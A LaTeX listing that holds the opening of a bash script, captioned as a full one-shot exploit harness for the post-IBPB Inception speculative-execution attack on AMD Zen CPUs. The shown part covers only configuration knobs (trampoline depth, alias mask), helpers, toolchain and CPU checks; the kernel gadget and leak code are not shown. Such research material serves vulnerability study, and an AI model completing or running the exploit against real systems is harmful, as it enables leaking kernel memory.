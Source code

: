 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[style=bash-nonitalic,language=bash,alsolanguage=C,caption={Full one-shot PB‑Inception harness: builds and loads the kernel gadget, compiles user-space (ASM, trampoline builder, driver), wires sysfs, and launches the PoC pinned to one core.},label={lst:fullpoc}]
#!/usr/bin/env bash
# PB-Inception (Post-IBPB) Measurement Harness -> Full Exploit Version
# -----------------------------------------------------------------------------
# Builds/loads the kernel gadget (LKM), compiles the user-space binary
# (ASM + trampoline builder + driver + flush+reload), wires sysfs,
# and launches the PoC pinned to one core on an AMD Zen system.
# -----------------------------------------------------------------------------

set -euo pipefail

################################# configuration knobs

WORKDIR="${PWD}/pbinc_lab"
KMOD_DIR="${WORKDIR}/kmod"
USER_DIR="${WORKDIR}/user"

TRAMP_COUNT=64          # depth for speculative CALLs / number of trampolines
ALIAS_MASK="0xFFFFF"    # low-bit alias mask to match kernel gadget class (tune/spray)

CPU_CORE=${CPU_CORE:-0} # pin PoC to a core for stability
NASM=${NASM:-nasm}
CC=${CC:-gcc}
MAKE=${MAKE:-make}

################################# helpers

need_cmd() { command -v "$1" >/dev/null 2>&1 || { echo "[-] Need $1 installed"; exit 1; }; }
warn()     { echo "[-] $*" >&2; }
info()     { echo "[*] $*"; }
ok()       { echo "[+] $*"; }
sudo_or()  { if [[ $EUID -ne 0 ]]; then sudo "$@"; else "$@"; fi; }

################################# preflight

info "Checking toolchain"
need_cmd "$CC"; need_cmd "$MAKE"; need_cmd "$NASM"
if command -v apt-get >/dev/null 2>&1; then
  command -v perf >/dev/null 2>&1 || sudo_or apt-get install -y linux-tools-common linux-tools-$(uname -r) || true
fi

info "CPU sanity (expect AMD Zen 1/2)"
lscpu | egrep 'Vendor ID|CPU family|Model name' || true
lscpu | grep -qi 'AuthenticAMD' || warn "CPU vendor not AMD - results may be negative"
lscpu | egrep -qi 'family\s*:\s*17|CPU family:\s*17' || warn "CPU family not 17h (Zen1/2) - results may be negative"

info "Mitigation telemetry (guest should perform entry-IBPB)"


\end{lstlisting}
\end{document}
